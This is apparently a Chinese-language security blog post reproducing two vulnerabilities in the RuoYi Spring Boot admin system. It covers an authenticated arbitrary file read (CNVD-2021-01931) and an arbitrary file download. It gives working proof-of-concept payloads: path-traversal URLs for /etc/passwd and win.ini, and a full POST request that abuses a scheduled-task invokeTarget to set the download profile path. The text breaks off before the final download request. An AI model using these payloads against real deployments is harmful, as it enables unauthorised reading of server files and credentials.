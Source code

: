   
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGufEdK0HbMiapJdTOsonQUVvOqApb7libcSOdzKhEhCibnIlO28vUEbgDw/640?wx_fmt=png&from=appmsg "")  
## 若依后台任意文件读取（CNVD-2021-01931）  
### 漏洞简介  
  
若依管理系统是基于springboot的权限管理系统，登录后台后可以读取服务器上的任意文件。影响版本：RuoYi<4.5.1  
### 漏洞复现  
  
POC:  

```
/common/download/resource?resource=/profile/../../../../etc/passwd
/common/download/resource?resource=/profile/../../../../Windows/win.ini
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGH2TQ38ZAaJNGI5JYzl2qdJ9hiaSHWlj9zCf8AutN84xLhqQu0ftshaQ/640?wx_fmt=png&from=appmsg "")  
  
读取了D盘下的1.txt文件  
## 若依后台任意文件下载漏洞  
### 漏洞简介  
  
若依管理系统后台存在任意文件下载漏洞。影响版本：若依管理系统4.7.6及以下版本  
### 漏洞复现  
  
漏洞利用前提：登录进后台。  
  
首先提交一个定时任务。  

```
POST /monitor/job/add HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 188
Connection: close
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=61e79ae9-8cdd-4e51-baac-d269ef551df3
createBy=admin&jobName=renwu&jobGroup=DEFAULT&invokeTarget=ruoYiConfig.setProfile('c://windows/win.ini')&cronExpression=0%2F15+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=0&remark=
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGgQQShicG4MicibqrePAfGmTFfwgTHefjrfoeVhFC780yJMUiaCI8NBBlrQ/640?wx_fmt=png&from=appmsg "")  
  
  
通过浏览器直接get请求以下地址即可，下载任意文件。  
